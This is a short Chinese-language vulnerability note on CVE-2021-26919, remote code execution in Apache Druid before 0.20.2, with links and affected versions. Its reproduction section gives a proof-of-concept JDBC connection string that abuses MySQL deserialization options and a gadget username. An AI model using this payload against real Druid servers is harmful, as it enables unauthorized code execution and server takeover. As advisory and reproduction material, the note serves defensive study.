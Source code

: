 # Apache Druid 远程代码执行漏洞 CVE-2021-26919

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。2021年3月30日，Apache Druid官方发布安全更新，修复了 CVE-2021-26919 Apache Druid 远程代码执行漏洞。由于Apache Druid 默认情况下缺乏授权认证，攻击者可直接构造恶意请求执行任意代码，控制服务器。

参考链接：

* http://m0d9.me/2021/04/21/Apache-Druid-CVE-2021-26919-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
* https://help.aliyun.com/noticelist/articleid/1060822985.html

## 漏洞影响

```
Apache Druid < 0.20.2
```

## 漏洞复现

jdbc触发点：https://druid.apache.org/docs/0.19.0/development/extensions-core/druid-lookups.html#polling-lookup

poc:

```
url = "jdbc:mysql://localhost:3307/?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&maxAllowedPacket=65535"
user ="cb1"
password="password"
```
